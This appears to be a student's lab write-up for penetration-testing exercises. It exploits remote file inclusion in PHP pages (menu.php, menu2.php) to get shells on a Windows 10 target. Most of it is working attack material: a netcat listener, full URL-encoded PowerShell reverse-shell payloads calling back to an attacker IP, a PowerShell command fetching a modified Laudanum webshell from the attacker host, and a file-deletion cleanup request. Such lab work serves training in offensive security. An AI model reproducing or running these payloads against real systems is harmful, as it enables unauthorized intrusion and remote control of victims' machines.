







### 9.4.4.7 Exercises
#### 1. Exploit the RFI vulnerability in the web application and get a shell.

- Created file with RFI code & served on Kali
  

- Started netcat lister on Kali:

  ```bash
  sudo nc -nvlp 443
  ```

- Injected link to RFI code in request to webserver with URL encoded reverse shell code from the previous exercise:
  `192.168.216.10/menu.php?file=http://192.168.119.216/bad.txt&cmd=%70%6f%77%65%72%73%68%65%6c%6c%20%2d%63%20%22%24%63%6c%69%65%6e%74%20%3d%20%4e%65%77%2d%4f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%53%6f%63%6b%65%74%73%2e%54%43%50%43%6c%69%65%6e%74%28%27%31%39%32%2e%31%36%38%2e%31%31%39%2e%32%31%36%27%2c%34%34%33%29%3b%24%73%74%72%65%61%6d%20%3d%20%24%63%6c%69%65%6e%74%2e%47%65%74%53%74%72%65%61%6d%28%29%3b%5b%62%79%74%65%5b%5d%5d%24%62%79%74%65%73%20%3d%20%30%2e%2e%36%35%35%33%35%7c%25%7b%30%7d%3b%77%68%69%6c%65%28%28%24%69%20%3d%20%24%73%74%72%65%61%6d%2e%52%65%61%64%28%24%62%79%74%65%73%2c%20%30%2c%20%24%62%79%74%65%73%2e%4c%65%6e%67%74%68%29%29%20%2d%6e%65%20%30%29%7b%3b%24%64%61%74%61%20%3d%20%28%4e%65%77%2d%4f%62%6a%65%63%74%20%2d%54%79%70%65%4e%61%6d%65%20%53%79%73%74%65%6d%2e%54%65%78%74%2e%41%53%43%49%49%45%6e%63%6f%64%69%6e%67%29%2e%47%65%74%53%74%72%69%6e%67%28%24%62%79%74%65%73%2c%30%2c%20%24%69%29%3b%24%73%65%6e%64%62%61%63%6b%20%3d%20%28%69%65%78%20%24%64%61%74%61%20%32%3e%26%31%20%7c%20%4f%75%74%2d%53%74%72%69%6e%67%20%29%3b%24%73%65%6e%64%62%61%63%6b%32%20%3d%20%24%73%65%6e%64%62%61%63%6b%20%2b%20%27%50%53%20%27%20%2b%20%28%70%77%64%29%2e%50%61%74%68%20%2b%20%27%3e%20%27%3b%24%73%65%6e%64%62%79%74%65%20%3d%20%28%5b%74%65%78%74%2e%65%6e%63%6f%64%69%6e%67%5d%3a%3a%41%53%43%49%49%29%2e%47%65%74%42%79%74%65%73%28%24%73%65%6e%64%62%61%63%6b%32%29%3b%24%73%74%72%65%61%6d%2e%57%72%69%74%65%28%24%73%65%6e%64%62%79%74%65%2c%30%2c%24%73%65%6e%64%62%79%74%65%2e%4c%65%6e%67%74%68%29%3b%24%73%74%72%65%61%6d%2e%46%6c%75%73%68%28%29%7d%3b%24%63%6c%69%65%6e%74%2e%43%6c%6f%73%65%28%29%22`
- Shell Access obtained
  

#### 2. Using /menu2.php?file=current_menu as a starting point, use RFI to get a shell.

`menu2.php` takes the `file` argument and appends `.php` to the end of it.  To make this work, I just renamed `bad.txt` to `bad.php` and did not supply an extension to `bad` in the URL so that it would look for `bad.php`.

Basically everything else operated the same way as above:

- Started netcat listener on Kali
- Requested this URL:  `192.168.216.10/menu2.php?file=http://192.168.119.216/bad&cmd=%70%6f%77%65%72%73%68%65%6c%6c%20%2d%63%20%22%24%63%6c%69%65%6e%74%20%3d%20%4e%65%77%2d%4f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%53%6f%63%6b%65%74%73%2e%54%43%50%43%6c%69%65%6e%74%28%27%31%39%32%2e%31%36%38%2e%31%31%39%2e%32%31%36%27%2c%34%34%33%29%3b%24%73%74%72%65%61%6d%20%3d%20%24%63%6c%69%65%6e%74%2e%47%65%74%53%74%72%65%61%6d%28%29%3b%5b%62%79%74%65%5b%5d%5d%24%62%79%74%65%73%20%3d%20%30%2e%2e%36%35%35%33%35%7c%25%7b%30%7d%3b%77%68%69%6c%65%28%28%24%69%20%3d%20%24%73%74%72%65%61%6d%2e%52%65%61%64%28%24%62%79%74%65%73%2c%20%30%2c%20%24%62%79%74%65%73%2e%4c%65%6e%67%74%68%29%29%20%2d%6e%65%20%30%29%7b%3b%24%64%61%74%61%20%3d%20%28%4e%65%77%2d%4f%62%6a%65%63%74%20%2d%54%79%70%65%4e%61%6d%65%20%53%79%73%74%65%6d%2e%54%65%78%74%2e%41%53%43%49%49%45%6e%63%6f%64%69%6e%67%29%2e%47%65%74%53%74%72%69%6e%67%28%24%62%79%74%65%73%2c%30%2c%20%24%69%29%3b%24%73%65%6e%64%62%61%63%6b%20%3d%20%28%69%65%78%20%24%64%61%74%61%20%32%3e%26%31%20%7c%20%4f%75%74%2d%53%74%72%69%6e%67%20%29%3b%24%73%65%6e%64%62%61%63%6b%32%20%3d%20%24%73%65%6e%64%62%61%63%6b%20%2b%20%27%50%53%20%27%20%2b%20%28%70%77%64%29%2e%50%61%74%68%20%2b%20%27%3e%20%27%3b%24%73%65%6e%64%62%79%74%65%20%3d%20%28%5b%74%65%78%74%2e%65%6e%63%6f%64%69%6e%67%5d%3a%3a%41%53%43%49%49%29%2e%47%65%74%42%79%74%65%73%28%24%73%65%6e%64%62%61%63%6b%32%29%3b%24%73%74%72%65%61%6d%2e%57%72%69%74%65%28%24%73%65%6e%64%62%79%74%65%2c%30%2c%24%73%65%6e%64%62%79%74%65%2e%4c%65%6e%67%74%68%29%3b%24%73%74%72%65%61%6d%2e%46%6c%75%73%68%28%29%7d%3b%24%63%6c%69%65%6e%74%2e%43%6c%6f%73%65%28%29%22`
- Shell access obtained
  

#### 3. Use one of the webshells included with Kali to get a shell on the Windows 10 target

I used the Laudanum shell.php webshell for this.

- I modified the `shell.php` code to only allow my Kali IP,  changed the default user/pass to `coyote/password` and saved the file as `bad1.php`
  

- Used the `bad.txt` script from the previous exercises to run the PowerShell command `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.119.216/bad1.php','bad1.php')"` (encoded for URL's) to download from Kali the `bad1.php` file to the webserver.

  ```html
  http://192.168.216.10/menu.php?file=http://192.168.119.216/bad.txt&cmd=%70%6f%77%65%72%73%68%65%6c%6c%20%2d%63%20%22%28%6e%65%77%2d%6f%62%6a%65%63%74%20%53%79%73%74%65%6d%2e%4e%65%74%2e%57%65%62%43%6c%69%65%6e%74%29%2e%44%6f%77%6e%6c%6f%61%64%46%69%6c%65%28%27%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%31%39%2e%32%31%36%2f%62%61%64%31%2e%70%68%70%27%2c%27%62%61%64%31%2e%70%68%70%27%29%22
  ```

- Visited the `bad1.php` page on the webserver and logged in using the credentials I set.
  

- From this console, I have webshell access.  At this point, I could execute a PowerShell command to create a reverse shell, but I also could've done that earlier, so I didn't bother here.
  

- I also deleted my bad1.php file....just call me Mr. Clean.

  ```html
  http://192.168.216.10/menu.php?file=http://192.168.119.216/bad.txt&cmd=del%20bad1.php
  ```

  